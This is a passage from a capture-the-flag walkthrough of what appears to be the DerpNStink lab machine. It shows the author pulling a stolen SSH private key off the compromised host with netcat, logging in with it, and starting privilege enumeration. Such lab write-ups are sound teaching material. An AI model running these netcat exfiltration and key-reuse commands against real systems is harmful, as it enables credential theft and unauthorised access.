 
`cat key.txt`

<br>
![A32](https://i.imgur.com/sqLBVDt.png)  
<br>

It's actually a key, hooray! <br>
Send it to your local machine using `nc` and we should be able to log in to ssh.

First, we need to see if `stinky` can use `nc`. <br>
In the stinkshell, run a `which` command.

`which nc`

This will show that `nc` is there for us to use. <br>

Set up the listener on your local machine, making sure to use a different port than you used for the php-reverse-shell.

`nc -lnvp PORTNUMBER > key.txt`

<br>
![A33](https://i.imgur.com/cMLc8X0.png)  
<br>

Send the file from the stinkshell over to your local machine.

`nc local.machine.ip.addr PORTNUMBER < key.txt`

<br>
![A34](https://i.imgur.com/qzNgAq3.png)
<br>

When you receive the key, you'll need to change the file permissions or `ssh` will complain.

`chmod 600 key.txt`

Include the `-i` flag with your `ssh` command to use the key.

`ssh stinky@derpnstink.local -i key.txt`

<br>
![A35](https://i.imgur.com/uT0bZ5b.png)  
<br>

## 8. Sniffing with "Stinky"

We've got a good shell now, let's see if `stinky` can run `sudo` with anything interesting.

`sudo -l`

This results in a message saying that we `stinky` is unable to run `sudo`. <br>

The `derpissues.pcap` file is waiting for us, but pcap files can be pretty extensive. It can be hard to find the right packets amongst everything flying around.

Maybe the `/ftp/files/network-logs` directory can help provide context.
